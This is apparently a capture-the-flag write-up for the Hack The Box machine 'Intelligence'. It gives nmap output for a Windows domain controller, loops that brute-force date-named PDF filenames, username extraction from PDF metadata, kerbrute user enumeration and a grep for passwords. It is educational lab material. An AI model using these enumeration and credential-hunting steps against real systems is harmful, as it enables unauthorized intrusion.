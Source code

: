# Hack the Box - Intelligence

```CSS
Nachine IP: 10.10.10.248
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.248 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.248
Host is up (0.18s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49707/tcp open  unknown
49714/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 304.78 seconds
```

```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49691,49692,49707,49714 10.10.10.248 -oN nmap.deep

Nmap scan report for 10.10.10.248                                                                                                                                           
Host is up (0.18s latency).                                                                                                                                                 
                                                                                                                                                                            
PORT      STATE SERVICE       VERSION                                                                                                                                       
53/tcp    open  domain        Simple DNS Plus                                                                                                                               
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                                      
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                    
|_http-title: Intelligence                                                                                                                                                  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-10 09:15:40Z)                                                                                
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                         
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.                                                                                                         
| ssl-cert: Subject: commonName=dc.intelligence.htb                                                                                                                         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb                                                                         
| Not valid before: 2021-04-19T00:43:16                                                                                                                                     
|_Not valid after:  2022-04-19T00:43:16                                                                                                                                     
445/tcp   open  microsoft-ds?                                                                                                                                               
464/tcp   open  kpasswd5?                                                                                                                                                   
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                           
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-10T09:16:35
|_  start_date: N/A
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.93 seconds
```

---

## HTTP Port #80
  - Homepage
![image](https://user-images.githubusercontent.com/83878909/230812679-60dfc045-321b-4e62-b577-3006e048ab79.png)

  - Announcement Document
![image](https://user-images.githubusercontent.com/83878909/230812932-cad5e527-0fd3-40b5-a09e-62a087f9aebd.png)

  - Other Document
![image](https://user-images.githubusercontent.com/83878909/230813172-f7359efc-a356-4629-9a8a-64564ee6cb07.png)

---

## Brute-Force PDF Filenames
  - Create a wordlist to brute-force the `date`, maybe some other documents exist.
```CSS
▶ for i in $(seq $(date -d "2020-01-01" +%s) 86400 $(date -d "2021-05-15" +%s)); do date -d @$i "+%Y-%m-%d-upload.pdf"; done > files.txt
```
- Brute-Force the filename.
```CSS
▶ for i in $(cat files.txt); do wget http://10.10.10.248/documents/$i; done
```
  - Files found.
![image](https://user-images.githubusercontent.com/83878909/230816862-cc30d963-0b39-4c13-b2cc-7e89e51206b3.png)

---

## Exiftool PDF Meta-data
  - PDF files meta-data.
![image](https://user-images.githubusercontent.com/83878909/230817269-96fbdaa8-e0a4-48e0-b13e-b00ef8405861.png)
  - Extract creator names from meta-dta of all the PDF files.
```CSS
▶ pdf exiftool *pdf | grep Creator | awk '{print $3}' | sort -u > creators.txt
```
```CSS
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

-- 

## Kerbrute Validate Usernames
```CSS
▶ kerbrute userenum --dc 10.10.10.248 -d intelligence.htb creators.txt
```
![image](https://user-images.githubusercontent.com/83878909/230821076-266f1262-a0a6-4d35-bd21-025be8a3c845.png)

---

## Sensitive Information (Passwords)
  -  Convert all `pdf` files to `text`.
```CSS
▶ for i in $(ls); do pdftotext $i; done
```

  - Passwords
```CSS
▶ cat *.txt | grep -i password -B5 -A5
```
![image](https://user-images.githubusercontent.com/83878909/230822841-3abc40df-e706-4d56-8fbe-1c1b6a0fcab9.png)
